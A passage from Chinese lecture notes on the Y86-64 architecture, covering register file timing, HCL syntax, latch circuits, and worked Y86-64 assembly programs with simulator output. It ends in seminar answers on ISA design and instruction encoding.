寄存器文件的读和写有不同的时序（课件 p.40）。读的行为像组合逻辑：srcA 一改变，经过一段延迟，valA 就输出相应寄存器的值，不需要等时钟。写的行为像时钟寄存器：dstW 和 valW 准备好以后，要等到时钟上升沿才真正写入。课件的例子中，第 2 号寄存器原来的值是 x，读端口 A 的地址设为 2 时，valA 输出 x；在写端口上给出 dstW = 2、valW = y，时钟上升之后第 2 号寄存器变为 y，此时读端口 A 输出的值也随之变成 y。
表 16 寄存器文件读写的时间过程（课件 p.40 的例子）
| 时刻 | 端口上的信号 | 2 号寄存器 | 读端口 A 的输出 valA |
|---|---|---|---|
| ① 周期开始 | srcA = 2 | x | 经过一段读延迟后变为 x |
| ② 周期中 | srcA 改为 3 | x | 经过读延迟后变为 3 号寄存器的值（不必等时钟） |
| ③ 周期中 | srcA 改回 2；写端口给出 dstW = 2、valW = y | x（尚未写入） | 变回 x |
| ④ 时钟上升沿 | 写入发生 | y | — |
| ⑤ 上升沿之后 | srcA 仍为 2 | y | 经过读延迟后变为 y |
★ 存储部件的时序规则
组合逻辑的特点是输入一变，输出在一段延迟后随之改变，没有“记忆”。
时钟寄存器则只在时钟上升沿装入输入，其余时间输出保持不变，是相邻时钟周期之间的屏障。
寄存器文件、内存：读像组合逻辑（地址变，数据随之变），写像寄存器（上升沿才写入）；寄存器文件中 ID 为 0xF 表示不读不写。
9.15 HCL 语法小结（课件 p.42–43）#
HCL 是一种非常简单的硬件描述语言，只能描述硬件行为中有限的一部分——正好是本课程要研究和修改的控制逻辑。它有两种数据类型：bool 表示一位布尔信号，习惯用小写字母命名；int（教材第 3 版写作 word）表示一个字，习惯用大写字母命名，HCL 不规定字的宽度。语句只有两种形式：bool a = 布尔表达式; 和 int A = 字级表达式;，每条语句定义一个信号，相当于一块组合电路的输出。表 17 按返回值的类型整理了全部运算。
表 17 HCL 运算一览（课件 p.43；教材 4.2 节）
| 类别 | 写法 | 含义 |
|---|---|---|
| 逻辑运算（bool） | a && b、a || b、!a | 与、或、非 |
| 字比较（bool） | A == B、A != B、A < B、A <= B、A >= B、A > B | 比较两个字，结果是一位 |
| 集合成员（bool） | A in { B, C, D } | 等价于 A == B || A == C || A == D |
| case 表达式（字） | [ a : A; b : B; c : C; ] | 依次检查 a、b、c，返回第一个成立的条件对应的值 |
集合成员测试在后面两讲的控制逻辑中用得非常多，例如 bool need_regids = icode in { IRRMOVQ, IOPQ, IPUSHQ, IPOPQ, IIRMOVQ, IRMMOVQ, IMRMOVQ }; 一句话就说明了哪些指令带寄存器指示符字节，对照图 3 可以逐一核对。
9.16 附加：怎样存储一位（课件 p.65–71）#
附加页从电路层面解释了寄存器为什么能“记住”一位。最基本的存储元件是双稳态元件（课件 p.65–67，图 17）：两个反相器首尾相接，形成一个环。把环在某处断开，可以画出输入电压 Vin 与经过两级反相后的电压 V2 的关系曲线，它与直线 V2 = Vin 有三个交点：两端的两个是稳定点，分别对应存储 0 和 1；中间的交点是亚稳态，任何微小扰动都会让电路离开它，滑向某个稳定点。课件用一个立在三角形支点上的杆子打比方：倒向左边或右边都能稳定停住，竖直立着虽然理论上能平衡，却一碰就倒。
图 17 双稳态元件：左为两个首尾相接的反相器，右为断开环路后 V2 随 Vin 变化的曲线（课件 p.65–67）
为了能控制存进去的值，把反相器换成或非门，就得到 R-S 锁存器（课件 p.68）：R = 1 时复位（存 0），S = 1 时置位（存 1），R、S 都为 0 时保持原值。再在前面加上由数据 D 和时钟 C 控制的门，就是 D 锁存器（课件 p.69–70）：C = 1 时处于“透明”的锁存模式，输出跟随 D 变化；C 下降为 0 时进入存储模式，保存 C 下降那一刻 D 的值。透明锁存器的问题是 C = 1 的整段时间内输出都可能变化。边沿触发锁存器（课件 p.71）用一个由反相器延迟构成的触发电路，只在时钟上升后的一个很短的窗口 T 内处于锁存模式，于是存进去的就是时钟上升那一刻的 D 值，其余时间输出保持稳定。9.13 节的时钟寄存器正是由 64 个这样的边沿触发锁存器构成的。
先看 R-S 锁存器（图 18）。两个或非门交叉连接：上面门的输入是 R 和下面门的输出 Q−，下面门的输入是 S 和上面门的输出 Q+。或非门只要有一个输入为 1，输出就是 0。R = 1 时上面的门输出 Q+ = 0，于是下面的门两个输入都是 0，输出 Q− = 1，存进了 0（课件 p.68 的 Resetting）；S = 1 时对称地得到 Q+ = 1、Q− = 0（Setting）；R = S = 0 时两个或非门都相当于反相器，电路退化为双稳态元件，保持原来的值（Storing）。表 18 由门级模拟逐一验证：从两种可能的初始状态出发，反复计算两个门的输出直到不再变化。R = S = 1 时两个输出都被强制为 0，不再互为反值；如果此后 R、S 同时变回 0，在理想模型中两个门会同时翻转、来回振荡，实际电路则取决于哪个门更快，所以这种输入是不允许的。
图 18 R-S 锁存器：两个交叉连接的或非门（课件 p.68）
表 18 R-S 锁存器的行为（门级模拟验证）
| R | S | Q+ | Q− | 动作 |
|---|---|---|---|---|
| 0 | 0 | q | !q | 保持原值（存储） |
| 1 | 0 | 0 | 1 | 复位：存 0 |
| 0 | 1 | 1 | 0 | 置位：存 1 |
| 1 | 1 | 0 | 0 | 不允许：Q+ 与 Q− 不再互补；若 R、S 同时回到 0，结果不确定 |
D 锁存器（图 19）在 R-S 锁存器前面加了两个与门：R = !D && C，S = D && C。这样 R、S 不会同时为 1，自然避开了不允许的输入。C = 0 时两个与门都输出 0，R = S = 0，锁存器保持原值，处于存储模式；C = 1 时，D = 0 使 R = 1（存 0），D = 1 使 S = 1（存 1），输出随 D 变化，处于锁存模式（表 19）。因为 C = 1 期间 D 的变化会直接传到输出，这种锁存器称为“透明的”；C 从 1 变为 0 的那一刻，最后的 D 值被保存下来（课件 p.70）。
图 19 D 锁存器：用与门由 D、C 产生 R、S（课件 p.69）
表 19 D 锁存器的行为（门级模拟验证）
| C | D | R | S | Q+ | 模式 |
|---|---|---|---|---|---|
| 0 | 0 | 0 | 0 | 保持原值 | 存储模式 |
| 0 | 1 | 0 | 0 | 保持原值 | 存储模式 |
| 1 | 0 | 1 | 0 | 0 | 锁存（透明）模式：输出跟随 D |
| 1 | 1 | 0 | 1 | 1 | 锁存（透明）模式：输出跟随 D |
边沿触发锁存器（课件 p.71）把时钟 C 先经过一串反相器延迟，再与原来的 C 做“与”，得到触发信号 T：只有在 C 刚刚上升、延迟后的反相信号还没来得及变为 0 的短暂时间里，T 才为 1。用 T 代替 C 去控制 D 锁存器，锁存模式就只持续这一小段时间。图 20 中，第一个上升沿时 D = 1，输出变为 1；第二个上升沿时 D = 0，输出变为 0；两个上升沿之间 D 变化了好几次，输出都保持不变。这正是 9.13 节时钟寄存器所需要的行为。
图 20 边沿触发锁存器的时序：T 是时钟上升后的短脉冲（课件 p.71）
表 20 三种锁存器的比较（课件 p.68–71）
| 元件 | 控制方式 | 何时改变存储的值 |
|---|---|---|
| R-S 锁存器 | R（复位）、S（置位）两个输入 | R = 1 存 0，S = 1 存 1，二者都为 0 时保持 |
| D 锁存器（透明） | 数据 D、时钟 C | C = 1 期间输出跟随 D；C 下降时锁住当时的 D |
| 边沿触发锁存器 | 数据 D、时钟 C（内部产生触发脉冲 T） | 只在 C 上升沿附近的短暂窗口内装入 D |
9.17 专题：从零写一个完整的 Y86-64 程序#
9.6 节读懂了课件上的完整程序，这一节反过来，从一张白纸开始写出一个能在 yis 上运行的 .ys 文件。Arch Lab 的第一部分就是这种练习：除了函数本身，还要自己写启动代码、准备测试数据、安排栈的位置。Y86-64 没有操作系统，也没有链接器和加载器，x86-64 程序里由它们默默完成的工作——程序放在内存的什么位置、栈从哪里开始、main 返回以后怎样结束——在这里都要程序员亲手写出来。本节先给出程序的骨架并逐条解释其中的伪指令，再说明参数、返回值和寄存器的约定，然后用两个完整的例子（一个三参数的循环函数、一个递归函数）演示，最后用模拟器做几个“故意写错”的实验。为了不与实验题目重合，例子都是新编的；所有程序都在讲义的指令集模拟器和 PIPE 模拟器上运行过，文中的步数、地址和寄存器值都取自运行结果。
一、程序的骨架#
模拟器开始运行时的状态非常朴素：内存中只有汇编器生成的那些字节，其余全是 0；15 个寄存器全为 0；PC = 0。程序要做的一切准备都得自己完成，所以一个完整的 Y86-64 程序几乎总是由下面四块组成。
# 程序的功能说明（第一行写清楚这个程序是干什么的）
.pos 0 # 1. 启动代码：从地址 0 开始
irmovq stack, %rsp # 设置栈指针
call main # 调用主程序
halt # main 返回到这里，停机
.align 8 # 2. 数据：对齐到 8 的倍数
array: .quad 0x1
.quad 0x2
main: irmovq array, %rdi # 3. 代码：main 准备参数，调用被测函数
...
call func
ret
func: ... # 被测函数，以 ret 结束
ret
.pos 0x200 # 4. 栈：栈底放在高地址
stack: # 栈从这里向低地址增长启动代码的三条指令各有分工。irmovq stack, %rsp 给栈指针一个合理的初值，否则 %rsp 是 0，第一次 call 或 pushq 就会出错（见本节第五部分）。call main 把下一条指令的地址，也就是 halt 的地址压栈，然后跳到 main；这样 main 和被测函数都可以像普通函数一样以 ret 结束，main 的 ret 正好回到 halt。halt 让模拟器停下来，状态变为 HLT。用 call 而不用 jmp 进入 main，就是为了让 main 的 ret 有地方可回。数据一般放在启动代码之后：halt 之后的字节永远不会被当作指令执行，数据放在那里最安全。代码部分先是 main，它只负责把参数放进约定的寄存器，再调用被测函数。栈写在文件最后，见下面对 .pos 的解释。
表 21 Y86-64 汇编器的伪指令与标号
| 写法 | 作用 | 是否产生字节 | 例子 |
|---|---|---|---|
.pos A | 把汇编器的“当前地址”设为 A，后面的内容从 A 开始存放 | 不产生 | .pos 0.pos 0x200 |
.align N | 把当前地址向上取整到 N 的倍数 | 不产生（跳过的字节保持为 0） | .align 8 |
.quad V | 在当前地址放一个 8 字节的值（小端序）；V 可以是数，也可以是标号 | 8 字节 | .quad 0x10.quad array |
标号: | 记下当前地址；之后可以在 irmovq、call、jXX 和 .quad 中当作常数使用 | 不产生 | loop:stack: |
汇编器在翻译时维护一个“当前地址”，每生成一条指令或一个 .quad，就把它往后推相应的字节数；标号的值就是它出现时的当前地址（表 21）。.pos 直接改写当前地址。写在文件开头的 .pos 0 保证第一条指令落在 PC 的初值 0 处（不写时也从 0 开始，写出来更清楚）。写在文件末尾的 .pos 0x200 后面只跟一个 stack 标号，不再有任何内容，它的作用仅仅是让标号 stack 等于 0x200，并不“分配”任何空间。.pos 也可以把当前地址往回拨，这时后写的内容会落在先写的内容上，汇编器不会替你检查各个区域是否重叠，这要靠程序员自己保证。标号在 irmovq 中当作立即数使用时，得到的是地址本身：irmovq array, %rdi 把数组的首地址放进 %rdi，这正是 C 语言中把数组名作为参数传递的效果；.quad array 则在内存中放一个指向 array 的指针。
.align 8 把当前地址向上取整到 8 的倍数。之所以需要它，是因为 Y86-64 的指令长度只有 1、2、9、10 字节几种，代码结束时的地址可以是任意值：骨架中 halt 位于 0x013，如果不写 .align 8，数组会从 0x014 开始。需要说明的是，Y86-64 本身并不要求对齐：内存按字节编址，mrmovq 可以从任意地址读出 8 个字节，把下面例一中的 .align 8 删掉，程序照样得到正确结果。仍然要写它，理由有三：其一，这与 x86-64 的对齐规则一致（第 7 讲），真实的硬件访问不对齐的数据可能要多访问一次内存；其二，yis 报告内存变化时是按 8 字节对齐的字来列出的，数据不对齐，输出就很难读（例一之后有演示）；其三，对齐后清单中的数据地址都是 8 的倍数，核对起来一目了然。
二、参数、返回值与寄存器的约定#
Y86-64 的寄存器与 x86-64 同名，使用约定也完全相同（第 6 讲），只是少了 %r15——它的编号 0xF 在 Y86-64 中表示“没有寄存器”。表 22 列出了写程序时要遵守的约定。
表 22 Y86-64 程序沿用的 x86-64 寄存器约定
| 用途 | 寄存器 | 说明 |
|---|---|---|
| 传参数（按顺序） | %rdi、%rsi、%rdx、%rcx、%r8、%r9 | 第 1～6 个参数；Y86-64 的练习程序很少超过 6 个参数 |
| 返回值 | %rax | 函数返回前把结果放在这里 |
| 栈指针 | %rsp | 只用于栈；初值由启动代码设置 |
| 被调用者保存 | %rbx、%rbp、%r12、%r13、%r14 | 函数要改写它们，必须先 pushq 保存、返回前 popq 恢复 |
| 调用者保存 | %rax、%rcx、%rdx、%rsi、%rdi、%r8～%r11 | 函数可以随意改写；调用者若要在 call 之后继续使用其中的值，须自己保存或重新装入 |
这些约定并不是硬件规定的，处理器对 15 个寄存器一视同仁，但遵守它们有两个直接的好处：任何按约定传参的测试程序都能调用你的函数；用 gcc -Og -S 得到的 x86-64 代码可以几乎逐条地改写过来，寄存器不用重新分配。约定还带来两个写 Y86-64 时特有的习惯。第一，算术指令不能带立即数，循环中要用的常数（例如 1 和 8）通常在函数开头用 irmovq 装进调用者保存的 %r8～%r11；但如果函数中间调用了别的函数，这些寄存器可能已被改写，call 之后要重新装入。第二，叶子函数（不再调用其他函数的函数）只用调用者保存寄存器就够了，除了 call 压入的返回地址以外完全不必碰栈；只有当某个值必须跨过一次 call 保留下来时，才需要动用被调用者保存寄存器，并为此付出一对 pushq/popq。
三、例一：带三个参数的循环函数#
第一个例子统计数组中不小于 k 的元素个数。它有三个参数，返回一个计数值，函数内部是一个循环，正好用来练习传参、返回值和循环的写法。C 代码如下。
long count_ge(long *a, long n, long k)
{
long cnt = 0;
for (; n != 0; n--, a++)
if (*a >= k)
cnt++;
return cnt;
}# 统计数组中不小于 k 的元素个数：long count_ge(long *a, long n, long k)
.pos 0 # 程序从地址 0 开始执行
irmovq stack, %rsp # 1. 设置栈指针
call main # 2. 调用 main
halt # 3. main 返回后停机
.align 8 # 数据按 8 字节对齐
array: .quad 0x0005
.quad 0xfffffffffffffffd # -3
.quad 0x000c
.quad 0x0007
.quad 0x0000
.quad 0x0009
main: irmovq array, %rdi # 第 1 个参数 a
irmovq $6, %rsi # 第 2 个参数 n
irmovq $5, %rdx # 第 3 个参数 k
call count_ge # 返回值在 %rax
ret
# long count_ge(long *a, long n, long k)
# %rdi = a, %rsi = n, %rdx = k
count_ge:
irmovq $8, %r8 # 常数 8
irmovq $1, %r9 # 常数 1
xorq %rax, %rax # cnt = 0
andq %rsi, %rsi # n == 0 ?
jmp test
loop: mrmovq (%rdi), %r10 # x = *a
subq %rdx, %r10 # x - k
jl next # x < k 则跳过
addq %r9, %rax # cnt++
next: addq %r8, %rdi # a++
subq %r9, %rsi # n--
test: jne loop # n != 0 则继续
ret
.pos 0x100
stack:main 依次把数组首地址、元素个数 6 和阈值 5 放进 %rdi、%rsi、%rdx，然后调用 count_ge；count_ge 把计数直接放在 %rax 中累加，返回时不需要再搬一次。函数开头把常数 8 和 1 装进 %r8、%r9。循环采用第 5 讲的“跳到中间”（jump to middle）结构：先用 andq %rsi, %rsi 按 n 设置条件码，再 jmp test，由于 jmp 不改变条件码，test 处的 jne 检查的正是 n 是否为 0，所以 n = 0 时一次也不进入循环。循环体中 subq %rdx, %r10 计算 x − k，jl 在 x < k 时跳过计数；这是有符号比较，数组中的 −3（写成补码 0xfffffffffffffffd）也能正确处理。subq 会改写 %r10，好在 x 之后不再需要；如果还要用，就得先 rrmovq 复制一份再减。
Stopped in 55 steps at PC = 0x13. Status 'HLT', CC Z=1 S=0 O=0
Changes to registers:
%rax: 0x0000000000000000 0x0000000000000004
%rdx: 0x0000000000000000 0x0000000000000005
%rsp: 0x0000000000000000 0x0000000000000100
%rdi: 0x0000000000000000 0x0000000000000048
%r8: 0x0000000000000000 0x0000000000000008
%r9: 0x0000000000000000 0x0000000000000001
%r10: 0x0000000000000000 0x0000000000000004
Changes to memory:
0x00f0: 0x0000000000000000 0x000000000000006f
0x00f8: 0x0000000000000000 0x0000000000000013结果的每一项都可以解释。%rax = 4，对应数组中的 5、12、7、9 四个元素。%rsi 已经减到 0，与初值相同，所以没有列出。%rdi = 0x48 指向数组末尾之后的位置，数组从 0x018 开始、共 6 × 8 = 48 字节，到 0x047 为止。%r10 = 4 是最后一次计算的 9 − 5。内存中只有两个字发生了变化，它们是两次 call 压入的返回地址：0xf8 处的 0x13 是 halt 的地址，0xf0 处的 0x6f 是 main 中 call count_ge 下一条指令（ret）的地址。55 步的来历是：启动代码 2 步，main 中 3 条 irmovq 和 call 共 4 步，count_ge 共 47 步，main 的 ret 1 步，halt 1 步，合计 2 + 4 + 47 + 1 + 1 = 55。其中 count_ge 的 47 步 = 循环前 5 条 + jne 执行 7 次 + 循环体其余 5 条执行 6 次 + 计数的 addq 执行 4 次 + ret 1 条，即 5 + 7 + 30 + 4 + 1 = 47。在第 11 讲的 PIPE 模拟器上运行同一个程序，寄存器结果相同，共用 81 个周期（55 条指令 + 4 + 22 个气泡）。
现在可以演示前面说的对齐问题。让 main 在调用之后把结果存进内存中的一个 result 单元（多写两条指令：irmovq result, %rcx 和 rmmovq %rax, (%rcx)），result 用 .quad 0 定义在 count_ge 的代码之后。如果不加 .align 8，result 的地址是 0x0ca，yis 报告的变化落在 0x0c8 开始的那个字上（下面的代码框）：新值 0x...049000 的最低字节 00 属于 0x0c8，字节 0x90 是 count_ge 最后一条 ret 的编码（地址 0x0c9），再往上的 04 才是 result 的最低字节。读这样的输出必须在脑子里把字节一个个拆开；加上 .align 8 之后，result 落在 0x0d0，输出一眼就能看懂。
# 不对齐：result 紧跟在 count_ge 的代码后面，地址为 0x0ca
0x00c8: 0x0000000000009000 0x0000000000049000
# 对齐：result 前加一行 .align 8，地址变为 0x0d0
0x00d0: 0x0000000000000000 0x0000000000000004四、栈放在哪里：以递归函数为例#
栈从 stack 标号处向低地址增长。第一次 call 或 pushq 先把 %rsp 减 8，写入的是 stack − 8 到 stack − 1 这 8 个字节，所以地址 stack 本身永远不会被写到；程序运行中栈用到的区域是“stack − 最大栈深度”到“stack − 1”。选择栈底地址只有一条原则：这片区域不能与代码和数据重叠，也就是栈底地址至少要等于“代码与数据的末地址 + 最大栈深度”，再留一些余量。课件用的 0x100、教材用的 0x200 对没有递归的小程序绰绰有余，例一整个运行过程只用了 16 字节的栈（两个返回地址）。递归程序的栈深度随输入增大，必须算一算。
第二个例子用递归计算斐波那契数。与例一不同，它在函数中间调用自己，有值必须跨过调用保留下来，正好用来练习被调用者保存寄存器和栈深度的估算。
long fib(long n)
{
if (n <= 1)
return n;
return fib(n - 1) + fib(n - 2);
}# 递归求斐波那契数：long fib(long n)，fib(0)=0，fib(1)=1
.pos 0
irmovq stack, %rsp
call main
halt
main: irmovq $10, %rdi # fib(10)
call fib
ret
# long fib(long n)：n <= 1 时返回 n，否则返回 fib(n-1) + fib(n-2)
fib: rrmovq %rdi, %rax # 先假定返回 n
irmovq $1, %r8
rrmovq %rdi, %r9
subq %r8, %r9 # n - 1
jle done # n <= 1：直接返回 n
pushq %rbx # 保存被调用者保存寄存器
pushq %r12
rrmovq %rdi, %rbx # %rbx = n（跨调用保留）
rrmovq %r9, %rdi
call fib # fib(n-1)
rrmovq %rax, %r12 # %r12 = fib(n-1)（跨调用保留）
irmovq $2, %r8 # %r8 是调用者保存的，调用后要重新装入
rrmovq %rbx, %rdi
subq %r8, %rdi # n - 2
call fib # fib(n-2)
addq %r12, %rax # fib(n-1) + fib(n-2)
popq %r12 # 按相反顺序恢复
popq %rbx
done: ret
.pos 0x400
stack:写这个函数的关键是看清哪些值要“活过”一次 call。计算 fib(n − 2) 时还要用到 n，而第一次调用 fib(n − 1) 会改写所有调用者保存寄存器（包括 %rdi），所以 n 要放进被调用者保存的 %rbx；第二次调用之后还要用到 fib(n − 1) 的结果，所以它放进 %r12。按照约定，%rbx 和 %r12 原来的值属于调用者，fib 用之前必须先 pushq 保存，返回前按相反的顺序 popq 恢复。两条 pushq 放在 n ≤ 1 的判断之后，这样 fib(0)、fib(1) 直接返回，除了返回地址以外不碰栈。常数 2 没有在函数开头和 1 一起装入，而是在第一次 call 之后才装进 %r8：%r8 是调用者保存寄存器，被调用的 fib 会把它改成 1，call 之前装进去的值靠不住。
Stopped in 2212 steps at PC = 0x13. Status 'HLT', CC Z=0 S=0 O=0
Changes to registers:
%rax: 0x0000000000000000 0x0000000000000037
%rsp: 0x0000000000000000 0x0000000000000400
%r8: 0x0000000000000000 0x0000000000000001
%r9: 0x0000000000000000 0xffffffffffffffff
Changes to memory:（共 26 个字，从 0x0318 到 0x03f8，此处从略）%rax = 0x37 = 55，正是 fib(10)。值得注意的是 %rbx 和 %r12 没有出现在寄存器变化列表中：它们被改写过上千次，最后却恢复成了初值 0，这是检查 pushq 和 popq 是否配对的简便方法。再来算栈深度。n ≥ 2 的每一层调用用掉 24 字节（返回地址、保存的 %rbx、保存的 %r12 各 8 字节），n ≤ 1 的一层只有返回地址 8 字节；最深的一条调用链是 main → fib(10) → fib(9) → … → fib(1)，再加上 main 自己的返回地址，共需 8 + 24 × 9 + 8 = 232 = 0xe8 字节，一般地，计算 fib(n) 需要 24n − 8 字节。栈底在 0x400，栈最低到 0x400 − 0xe8 = 0x318，与 yis 内存变化列表中的最低地址 0x318 完全吻合（图 21）。代码只占到 0x071，中间空着的七百多字节说明 0x400 留足了余量。还可以注意到，递归的步数随 n 指数增长（fib(5) 只要 187 步，fib(10) 要 2212 步），栈深度却只线性增长。
图 21 例二（栈底 0x400）的内存布局，以及计算 fib(10) 时递归最深处栈中的内容
五、几个故意写错的实验#
把例一、例二故意改错再运行，可以看到各种错误在模拟器上的表现（表 23）。前两种错误会被模拟器“抓住”，后两种却不会：一个碰巧正常，一个看起来正常。
表 23 故意写错的程序在模拟器上的表现
| 改动 | 模拟器的结果 | 原因 |
|---|---|---|
| 例一删掉 irmovq stack, %rsp | 第 1 步就停机：Status 'ADR'，PC = 0x0 | %rsp 仍是初值 0。call 先把它减 8，得到 0xfffffffffffffff8，向这个地址写返回地址超出了内存范围 |
| 例二删掉启动代码中的 halt | 运行 100 000 步仍未结束，Status 一直是 AOK | main 返回到 0x013，那里现在是 main 自己的第一条指令。main 第二次执行到 ret 时栈已经空了，弹出的是 0x400 处的 8 个 0 字节，于是跳回地址 0 从头再来，永不停止 |
| 例一删掉启动代码中的 halt | 照样停机，结果正确 | 侥幸：0x013 原来是 halt，删掉后它成了 .align 8 跳过的填充字节，值为 0，恰好是 halt 的编码 |
| 例二把栈底改成 .pos 0x100，计算 fib(7) | 70 步后 Status 'HLT'，PC = 0x71，%rax = 1（正确答案是 13） | 需要 24 × 7 − 8 = 160 字节，栈最低到 0x060，压进了 fib 末尾的代码（图 22）。第 60 步的 pushq %rbx 把 3 写到 0x070～0x077，ret 所在的字节 0x071 被改成 0x00，即 halt；随后 fib(1) 跳到 done，执行的正是这条“halt” |
最后一个实验最值得记住。栈越界没有引起 ADR，因为被覆盖的是程序自己的合法内存；模拟器报告的 Status 是 HLT，PC 也停在一条“halt”上，只看状态会以为程序正常结束了。可见运行结果必须与预期的答案逐项核对，HLT 只说明程序停了下来，不说明它算对了。同样的栈底放在 0x100，计算 fib(6) 却完全正确：需要 24 × 6 − 8 = 136 字节，栈最低到 0x078，刚好在代码的末尾 0x071 之上（图 22）。栈的错误往往只在输入较大时才暴露，所以测试递归程序要用最大的输入，并像上面那样算一算最深能到哪里。第三个实验则提醒我们不要依赖巧合：例一删掉 halt 还能停机，只是因为 halt 后面恰好是对齐填充的 0。
图 22 栈底放在 0x100 时，计算 fib(6) 与 fib(7) 用到的栈区域
六、检查清单#
★ 写完一个 Y86-64 程序后逐项检查
启动部分要求文件以 .pos 0 开头，紧接着 irmovq stack, %rsp、call main、halt 三条，一条也不能少。
数据应放在放在 halt 之后、程序执行不到的地方；先 .align 8，再用 .quad 逐个给出；负数写成 64 位补码的十六进制。
栈底地址用 .pos 写在文件末尾，后面只跟 stack 标号；栈底地址至少是“代码与数据的末地址 + 最大栈深度”，递归程序要按最大的输入估算深度。
参数与返回值的约定是：前 6 个参数依次放在 %rdi、%rsi、%rdx、%rcx、%r8、%r9，返回值放在 %rax。
如果要用 %rbx、%rbp、%r12～%r14，先 pushq，返回前按相反的顺序 popq；放在调用者保存寄存器里的常数，每次 call 之后都要重新装入。
控制流方面，每个函数的每条路径都以 ret 结束，pushq 与 popq 在每条路径上都成对。
运行后要核对：Status 为 HLT 且 PC 停在启动代码的 halt 处；%rsp 回到 stack 的值；被调用者保存寄存器不出现在变化列表中；返回值与手算的结果一致。
最后可以在模拟器的“汇编清单”视图中核对每条指令和每个数据的地址；需要时再切换到 PIPE 视图，在流水线上运行一遍，结果应当相同。
常见问题：stack 标号后面什么也没有，栈的空间是谁分配的？
没有人分配。.pos 0x200 和 stack: 只是让标号 stack 等于 0x200，汇编器不会在那里生成任何字节。模拟器的内存从一开始就整片存在，没有写过的字节都是 0；栈只是程序约定使用的一段地址，%rsp 指到哪里，pushq 和 call 就写到哪里。正因为如此，栈越界时不会有任何机制报错（上面的第四个实验），只能靠程序员算好栈深度。x86-64 Linux 上的程序则不同，栈由操作系统在加载程序时分配，栈的下方留有不可访问的保护区域，越界访问会立即引发段错误，而不是悄悄改写别的数据。
本讲小结（课件 p.49、p.61）#
| 主题 | 要点 |
|---|---|
| ISA | Y86-64 的状态和指令与 x86-64 相似，编码更简单，介于 CISC 与 RISC 之间；如今 ISA 设计的重要性不如从前，只要硬件足够多，几乎什么都能跑得很快 |
| 计算 | 由组合逻辑完成：计算布尔函数，持续响应输入的变化 |
| 存储：寄存器 | 保存单个字，在时钟上升沿装入 |
| 存储：随机访问存储器 | 保存多个字，可以有多个读写端口；地址输入变化时读出对应的字，时钟上升沿时写入 |
第二部分 小班研讨题解答（第 9 讲）#
研讨题以课件和教材为默认前提。凡涉及编码和程序运行的结论，都用本讲义的汇编器和模拟器（输出格式与 yas/yis 一致）实际生成；涉及 x86-64 的编码由 gcc 13 汇编后用 objdump 读出；涉及门电路的结论用枚举真值表验证。题目中的“课件第 x 页”是 2025 版的页码，对应的 2026 版页码为：第 4 页 → p.4；第 5 页 → p.6；第 14 页 → p.13；第 16 页 → p.15；第 41 页 → p.37（时序图；逻辑门本身见 p.27）；第 43 页 → p.28、p.44；第 44 页 → p.29、p.46；第 45 页 → p.30、p.45；第 46 页 → p.31、p.47；第 43~47 页 → p.42–48；第 48 页 → p.32；第 51 页 → p.41；第 53 页 → p.40。下面解答中的页码均已换成 2026 版。
研讨题 1：体系结构设计#
1（1）基于课件第 4 页，讲解制定一个简单的 ISA 需要规定哪些内容。
ISA 是写给两类人看的合同：编程者（包括编译器）要据此写出正确的程序，硬件设计者要据此造出处理器。因此它必须把“程序能看到和改变的一切”说清楚，而不涉及“硬件内部怎样实现”。以课件 p.4 的 Y86-64 为例，一个简单的 ISA 至少要规定下面几项内容（表 24）。
表 24 制定一个 ISA 需要规定的内容（以 Y86-64 为例）
| 需要规定的内容 | 要回答的问题 | Y86-64 的规定 |
|---|---|---|
| 程序寄存器 | 有几个、多宽、怎样命名和编号 | 15 个 64 位寄存器，编号 0～0xE，0xF 表示无寄存器 |
| 条件码 | 有哪些标志位、由哪些指令设置 | ZF、SF、OF；只由 OPq 设置 |
| 程序计数器 | 下一条指令的地址怎样确定 | PC；顺序执行时加上当前指令长度，跳转/调用/返回时改为目标地址 |
| 程序状态与异常 | 出错时怎么办 | Stat 取 AOK/HLT/ADR/INS，非 AOK 即停机 |
| 内存模型 | 编址单位、字长、字节序、地址空间 | 按字节编址，8 字节字，小端 |
| 指令集 | 有哪些操作，操作数从哪里来 | 12 类指令；算术只在寄存器间进行；访存只有 D(rB) 一种寻址 |
| 指令编码 | 每条指令怎样变成字节，长度如何确定 | icode:ifun + rA:rB + 8 字节常数，长度由首字节决定 |
| 指令语义 | 每条指令对状态的精确影响 | 如 subq 计算 rB − rA 并设置条件码；pushq %rsp 压入旧值 |
有两点值得强调。第一，ISA 规定的是“效果”而不是“过程”，程序员看到的是一条接一条的顺序执行，硬件可以同时执行多条指令，只要结果一样。第二，过程调用中“参数放在哪个寄存器、哪些寄存器由谁保存”属于 ABI（应用程序二进制接口）而不是 ISA：Y86-64 的 ISA 只规定 call 压入返回地址、ret 弹出返回地址，课件 p.53 说“遵循 x86-64 的过程调用约定”，指的是编程时沿用 x86-64 Linux 的 ABI。
1（2）基于课件第 5 页（“#1”）和后续的“#2、#3、#4”，讲解 Y86 每条指令的编码和功能，注意要将 cmovXX、OPq、jXX 等指令组展开讲解。
课件 p.6 给出 12 类指令的格式，p.7–9 分别把 cmovXX、OPq、jXX 三组按功能码展开，合起来共 27 条具体指令。这些指令的完整速查表放在第四部分表 33（Y86-64 指令集速查）：那里逐条给出格式、编码、效果与示例，这里不再重复。速查表的效果一列用“寄存器传送”的写法描述：R[x] 表示寄存器 x，M8[a] 表示从地址 a 开始的 8 字节，Cond(fn) 表示按表 3 由条件码算出的条件。
理解这些指令的编码时可以抓住三条线索。第一，功能码只在三组指令中有意义，而且 cmovXX 和 jXX 的条件编号完全一致，其中 fn = 0 的 rrmovq 和 jmp 是“无条件”版本。第二，寄存器字节的两个位置有固定用途：rA 是“源”或“被传送的值”，rB 是“目的”或“基址”；mrmovq 虽然写成 D(rB), rA，但编码仍然是 50 rA rB，与 rmmovq 的字段顺序相同，这样硬件总是从同一位置取出基址寄存器。第三，凡是不需要的寄存器字段都填 F：irmovq 没有源寄存器，rA = F；pushq 和 popq 只用到一个寄存器，rB = F（它们隐含使用 %rsp）。call 和 ret 也隐含使用 %rsp，但没有寄存器字节。
1（3）参照课件第 14 页的模式，为 Y86 每类指令选一个汇编指令实例，并转换成机器指令编码。注意 cmovXX、OPq、jXX 等指令组各选两条指令即可，不用都讲。
转换步骤固定为四步：查 icode 和 ifun 得到第 0 字节；查寄存器编号得到第 1 字节，空位填 F；把常数写成 64 位补码；按小端从低字节到高字节排列。表 25 的编码全部由汇编器生成，并与手工推导核对。
表 25 每类指令的编码实例
| 汇编指令 | 编码（按地址从低到高） | 推导要点 |
|---|---|---|
halt | 00 | 只有指令字节 |
nop | 10 | 只有指令字节 |
rrmovq %rsp, %rbx | 20 43 | %rsp = 4，%rbx = 3 |
